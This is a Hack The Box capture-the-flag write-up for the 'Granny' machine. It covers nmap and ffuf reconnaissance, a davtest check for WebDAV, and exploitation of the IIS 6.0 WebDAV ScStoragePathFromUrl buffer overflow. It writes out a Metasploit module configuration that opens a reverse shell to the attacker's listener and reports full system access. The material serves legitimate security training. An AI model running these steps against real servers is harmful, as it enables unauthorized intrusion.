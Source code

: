 # Granny [HTB](https://app.hackthebox.com/machines/Granny)
![granny-01]()

## Recon

After adding the target to our `/etc/hosts` file, we can start scanning it with:

```bash
nmap -sC -sV -A -p- granny.htb -oN nmap.results
```

![nmap-res-02]()

We have the following:

+ An IIS v6.0 server running on port 80.

It appears that the server is running an extremly outdated IIS server, as Microsoft released IIS v6.0 with
the 2003 Windows Server on May 28, 2003, which reached End-of-Life on Jul 14, 2015. [source](https://learn.microsoft.com/en-us/lifecycle/products/internet-information-services-iis) 

I'm thinking public exploits. 


### IIS Port 80

With a quick Goolge search, we can find a public exploit for IIS V6.0 on [Exploit-DB](https://www.exploit-db.com/exploits/41738): 

![payload-03]()

This is a python 2 script, exploiting a buffer overflow vulnerability that lays in the `ScStoragePathFromUrl` function of the `WebDAV` Microsoft standard. 

`WebDAV` is an Internet-based open standard that enables editing Web sites over HTTP and HTTPS connections, which also supports file uploads to the server.  

This is not enabled by default, when you install the IIS server role, you need to check a box to enable `WebDAV`, [source](https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/)

The `WebDAV` interface could be on the server root directory, or it could be on a dedicated directory,  It depends on the config file. However, a common location is `/webdav` lets give it a shot:

![find-04]()

It says the service is unavailable, maybe its disabled? Lets try directory busting to be sure:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/IIS.fuzz.txt -u http://gra
nny.htb/FUZZ
``` 

![ffuf-05]()

Lets open this directory:

![vti-06]()

Looks interesting, but were not sure if its WebDAV enabled. We can verify this with:

```bash
davtest -url http://granny.htb/_vti_bin
```

![davtest-07]()

The file upload failed, that's one exploit vector, But the `WebDAV` connection succeeded, which means we 
can try the buffer-overflow exploit we found earlier for IIS 6.0. 

I've tried the python script from exploit-DB, the issue is with the shellcode, which opens `calc.exe`, 
instead of esteblishing a reverse shell. So i found another exploit on [Github](https://github.com/danigargu/explodingcan/tree/master). This one specifies that the shellcode must be alphanumerically encoded, Iv'etried it, didnt work for me. I tried a combination of different shellcodes and exploits, nothing worked for me. 


So instead i decided to go for the Metasploit implemantation of the exploit. 

```bash
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS granny.htb
set LHOST tun0
set LPORT 443
set TARGETURI /_vti_bin
```

![options-08]()

From here we can run `exploit`:

![root-09]()


Not only do we get a shell, we get full system access. However do note, this is in fact a 2003 Windows 
server, the directory structure is different from modern Windows systems. The user's folders are in `C:\Documents and Stettings`. 

